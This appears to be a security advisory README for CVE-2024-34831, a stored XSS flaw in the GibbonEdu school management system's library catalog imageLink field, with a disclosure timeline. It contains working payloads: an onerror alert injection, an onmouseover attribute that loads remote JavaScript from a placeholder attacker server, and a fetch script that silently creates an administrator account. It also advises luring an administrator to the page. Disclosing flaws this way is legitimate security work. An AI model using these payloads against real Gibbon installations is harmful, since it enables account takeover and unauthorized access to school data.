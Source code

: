 # CVE-2024-34831 XSS Vulnerability in GibbonEdu Core v26.0.00 leading to Privilege Escalation

Gibbon is an awesome open source fully fledged school management system. A lot of effort is going on in revamping the rather old code base.

Author: Christian Bajada

## **1. Vulnerability**

The `imageLink` parameter when editing/submitting new books (/modules/Library/library_manage_catalog_editProcess.php) is vulnerable to XSS. Users with the Manage Catalog permission can exploit this vulnerability causing arbitrary scripts to execute for users with higher level permissions and elevate privileges.

## **2. PoC Simple Scenario**

1. Navigate to **Learn > Library > Manage Catalog**
2. Edit one of the book items. 
3. The Image Link field is not properly sanitised and allows us to run arbitrary Javascript. Modify the Image Link to `[http://x](http://x/)" onerror='alert(1)'`  and the alert code will execute on page load when loading the library page:

![Gibbon_XSS_1](./Gibbon_XSS_1.png)

![Gibbon_XSS_1](./Gibbon_XSS_3.png)


## **3. PoC for Privilege Escalation**

This section explains how this vulnerability can be used for something more dangerous other than a simple alert (1) popup. We are going to trick a logged in administrator to seamlessly create another admin, accessible by the attacker.

The `imageLink` field is too small to allow us to invoke any meaningful functionality on the Gibbon Platform. What we can do is simply host the Javascript elsewhere and have it downloaded and executed by the browser. Lack of CSP makes this possible.

1. The malicious user crafts the payload to create an administrator user as follows and places it in a publicly accessible location e.g. https://<yourserver.com>/payload.js. The below code, if executed by an administrator will create an administrative user called hexthecat. The code invokes the function on Gibbon Core to create a new user together with all required parameters. 

```javascript
fetch('./modules/User%20Admin/user_manage_addProcess.php', { method: 'POST', body: new URLSearchParams({ title: 'Mr.', surname: 'Cat', firstName: 'Hex', preferredName: 'Hex', 'officialName' : 'Hex', gender: 'M', dob: '01/04/2024', gibbonRoleIDPrimary: '001', username: 'hexthecat', passwordNew: 'Hexed001', passwordConfirm: 'Hexed001', status: 'full', canLogin: 'Y', passwordForceReset: 'Y' }) });
```

2. The malicious Mange Catalogue user enters the following imageLink for a book (keeping the original and adding the script loading part): 

http://books.google.com/books?id=SluXuAAACAAJ&printsec=frontcover&img=1&zoom=1&source=gbs_api" onmouseover="$.getScript('https://<yourserver.com>/payload.js')"

3. Administrator browses the library.

You need to either wait until administrator navigates to the library catalog or else convince them via IM, Email or any other channel.

The act of hovering the mouse (onmouseover) on the picture of the book will cause the payload to be fetched from the location (in this case <yourserver.com>) and execute. This results in an administrator user being created which the malicious user can now access. The 'onerror' listener can also be used to have the payload execute immediately rather than having to hover over the picture.

You can check the created user in the menu **ADMIN > User Admin** 

![Gibbon_XSS_2](./Gibbon_XSS_2.png)



## **4. Responsible Disclosure**

Published as per responsible disclosure guidelines https://github.com/GibbonEdu/core/security.

- 06 May 2024: Vulnerability reported and acknowledged by GibbonEdu maintainer.
- 15 May 2024: CVE number assigned by MITRE. 
- 10 September 2024: Advisory published.
